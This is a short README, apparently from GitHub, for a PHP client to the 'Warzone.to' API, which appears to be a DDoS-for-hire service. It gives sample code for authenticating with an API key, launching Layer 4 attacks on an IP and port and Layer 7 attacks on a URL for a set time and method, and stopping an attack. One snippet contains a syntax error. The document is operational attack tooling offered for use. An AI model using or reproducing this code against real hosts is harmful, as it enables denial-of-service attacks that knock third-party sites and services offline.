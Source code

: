 # Warzone.to API
Sample API usage of Warzone.to

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://warzone.to/methods

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = 80;
$time = 15;
$method ="1;

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = 15;
$method = 5;

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
